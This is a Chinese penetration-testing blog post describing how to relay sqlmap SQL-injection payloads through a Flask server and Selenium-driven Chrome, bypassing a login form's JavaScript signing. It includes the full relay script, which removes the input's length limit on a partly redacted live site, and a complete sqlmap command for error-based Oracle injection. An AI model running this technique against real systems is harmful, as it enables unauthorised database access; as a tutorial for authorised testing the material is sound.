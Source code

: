 +++
title = "通过 selenium 和 flask 中转后利用 sqlmap 进行注入"
topics = ["Pentest"]
tags = ["injection"]
description = "渗透测试中有时候前端提交的数据会进行加密之类的操作, 有些加密的函数还不好找, 其实可以用 selenium 调用 chrome 驱动中转后进行测试。"
date = "2019-07-27T18:15:25+08:00"
draft = false
+++
<!--
 * @Author: reber
 * @Mail: reber0ask@qq.com
 * @Date: 2019-07-27 18:15:25
 * @LastEditTime: 2019-07-30 22:35:43
-->

### 0x00 先说前提
昨天某个小伙伴说有个注入没法搞
![60](/img/post/Xnip2019-07-27_19-20-07.png)

前端提交登陆表单时数据包加密了, 而且有个 sign 字符串每次都不一样用于校验, 应该是用 js 加密了
![](/img/post/Xnip2019-07-27_18-40-20.png)
![](/img/post/Xnip2019-07-27_18-41-18.png)

### 0x01 找加密的 js 文件
注入的地方是获取验证码时的手机号, 刚开始想着先找到 js 加密的函数, 然后生成 sign 再组数据包发送。

就像 [记一次SQL Server报错注入](/posts/2018/recording-an-sqlserver-sql-injection-of-error-based/) 中一样, 用 selenium 或者 PhantomJS 执行 js 代码生成sign

一番查找发现了加密的 js 文件函数, 但是用的是 angular 这个前端框架, 没用过这个东西。。。。。
![80](/img/post/Xnip2019-07-27_19-06-48.png)
![80](/img/post/Xnip2019-07-27_19-12-37.png)

能看懂一般的 js 代码, 但是这个没得搞, 不懂。。。

### 0x02 数据中转
本来昨天我已经放弃了的, 结果今天上午小伙伴又找我了, 说还没有整好, 又看了一通 js, 仍然无解, 看不懂。。。

想起昨天有个大佬说用 PhantomJS + flask 这样、那样、再这样, 中转数据就可以用 sqlmap 跑了, emmmmm。。。

<div style="display: flex;align-items: center;justify-content: center;">
    <img src="/img/post/Xnip2019-07-27_20-01-02.png" style="width: 50%;height: 50%;" />
</div><br>

虽然很早以前用过 asp 的 [Cookie 注入中转](/posts/2015/injection-of-asp-in-the-cookie/?_blank) , 但是那个是软件, 一直没有搞懂原理, 现在正好趁机学下

经过各种百度, 大概明白了, 应是本地起个 server, sqlmap 就扫描这个 server, server 接收到 payload 后将 payload 加到表单中, 然后模拟提交表单

### 0x03 selenium 和 flask 进行中转
没有接触过 PhantomJS, 但是 selenium 以前用过, 可以尝试下

大概看了下, 我们需要注意动态的消息提示框, 需要处理 input 的长度
![90](/img/post/Xnip2019-07-27_20-25-39.png)

大概代码就是下面这样了:

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
'''
@Author: reber
@Mail: reber0ask@qq.com
@Date: 2019-03-22 16:22:59
@LastEditTime: 2019-07-22 09:17:05
'''

import time
from lxml import etree
from flask import Flask
from flask import request
from selenium import webdriver
from selenium.webdriver.chrome.options import Options

# chrome_options = Options()
# chrome_options.add_argument('--headless')
# chrome = webdriver.Chrome(executable_path="/opt/chromedriver", options=chrome_options)
chrome = webdriver.Chrome(executable_path="/opt/chromedriver")
chrome.get("https://cx.xxxxxxx.cn/#dashboard")


app = Flask(__name__)

def send(payload):
    # 用两种登陆方式, 这里切换到验证码登陆方式
    chrome.find_element_by_link_text("手机登录").click()

    # 手机号长度有限制, 去除 input 的 maxlength 属性
    chrome.execute_script("document.getElementById('modile').removeAttribute('maxlength')")

    # 给 input 标签赋值
    chrome.find_element_by_id("modile").send_keys(payload)

    # 点击发送验证码
    chrome.find_element_by_id("BtnphoneNote").click()

    # 网速不好时服务器返回数据慢所以用 while
    while True:
        selector = etree.HTML(chrome.page_source)
        message = selector.xpath("//div[@class='ng-binding ng-scope']/text()")
        if message:
            time.sleep(0.5)
            # 得到返回的信息后, 关闭信息提示框, 然后清楚 input 的内容便于发送下一个 payload
            chrome.find_element_by_class_name("close").click()
            chrome.find_element_by_id("modile").clear()
            break
        time.sleep(0.5)
    return "ttttt"+message[0]

@app.route('/')
def index():
    payload = request.args.get("payload")
    return send(payload)


if __name__ == "__main__":
    app.run()
```

### 0x04 sqlmap 测试效果
* 启动 flask 服务

```
[16:09 reber@wyb at ~/Pentest]
➜  python3 tmp.py
* Serving Flask app "tmp" (lazy loading)
* Environment: production
WARNING: Do not use the development server in a production environment.
Use a production WSGI server instead.
* Debug mode: off
* Running on http://127.0.0.1:5000/ (Press CTRL+C to quit)
```

* 使用 sqlmap 尝试扫描

```
sqlmap --risk 2 --level 3 --tamper space2comment --batch --random-agent -u "http://127.0.0.1:5000/?payload=13188888888*" --dbms="Oracle" --technique=E --current-db
```

* flask 接收到了payload

![](/img/post/Xnip2019-07-27_20-42-19.png)

* sqlmap 执行结果

![](/img/post/Xnip2019-07-27_20-40-16.png)


<br>
#### Reference(侵删)：
* [sqlmap 代理绕过参数 hash 验证](https://www.0dayhack.com/post-677.html?_blank)